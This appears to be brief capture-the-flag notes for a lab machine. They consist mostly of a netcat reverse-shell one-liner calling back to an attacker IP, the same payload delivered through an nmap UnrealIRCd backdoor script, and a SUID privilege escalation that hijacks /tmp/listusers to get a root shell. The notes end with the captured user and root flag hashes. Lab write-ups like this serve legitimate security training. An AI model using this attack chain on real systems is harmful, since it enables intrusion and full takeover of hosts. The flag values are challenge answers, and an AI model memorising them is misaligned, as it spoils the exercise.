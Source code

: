 ```zsh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f
```

*Use nmap to execute command and check whether it is possible to execute command, try below command with just whoami before*

```zsh
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mk
fifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f' 10.10.10.117
```

Get a shell

privesc: SUID bit /usr/bin/viewuser
was looking for /tmp/listusers. Made a file of the name in the dir and put /bin/bash in it

UFlag:4a66a78b12dc0e661a59d3f5c0267a8e
RFlag:8d8e9e8be64654b6dccc3bff4522daf3
